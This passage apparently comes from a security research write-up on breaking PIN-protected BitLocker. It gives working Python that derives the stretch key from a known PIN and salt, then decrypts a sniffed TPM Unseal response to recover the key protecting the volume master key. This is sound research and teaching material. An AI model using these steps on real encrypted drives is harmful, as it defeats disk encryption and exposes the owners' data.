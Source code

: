 
Recovering the VMK
------------------
Okay we've finally grabbed the ```TPM_CC.Unseal``` command's response. But the response buffer doesn't look like something we're used to. On the left side is a non-PIN-protected BitLocker, on the right side is the captured PIN-protected one.
![Classic BitLocker vs PIN BitLocker](./BitLockerPIN/tpm_response_comparison.png)

The IK that protects the VMK is encrypted within this blob, using the SK derived from the PIN.

First, the SK needs to be derived from the PIN. The latter is UTF-16LE encoded, hashed twice, then 0x100000 rounds of SHA256 with the disk's salt are applied to it:
```python
import hashlib

# hash PIN twice
pin = '67851922'.encode('utf-16-le')
pinh = hashlib.sha256(pin).digest()
pinh = hashlib.sha256(pinh).digest()

# key stretching
h = bytes.fromhex('00' * 32)
salt = bytes.fromhex('c36496f98842c6fd9841de2ea743d5cf')    # from dislocker -vvvv output, "STRETCH KEY salt"
for i in range(0, 0x100000):
    h = hashlib.sha256(h + pinh + salt + i.to_bytes(8, byteorder='little')).digest()

print("SK:", h.hex())
```

The derived SK is now used to decrypt the buffer received from the TPM that was captured earlier to get IK:
```python
from Cryptodome.Cipher import AES

SK = bytes.fromhex("112a35c30dca7f30306d6a55e05d93719c7db79345520d6c7116c16e29616db2")
message = bytes.fromhex("5000000005000000"          # message header
                        "000A26106234DC0134000000"  # nonce
                        "124712A6F976ED48DBA49BA1E58744A9" # MAC, unused
                        "46C07032F2781AEBD065FCC19D6D118353C6E6738D94FDB0EBE8B13D91A58AE384B6C0604A60C5A70272958D") # encrypted IK
cipher = AES.new(SK, AES.MODE_CCM, nonce=message[8:8+12])
print("IK:", cipher.decrypt(message[36:36+44]).hex())
```
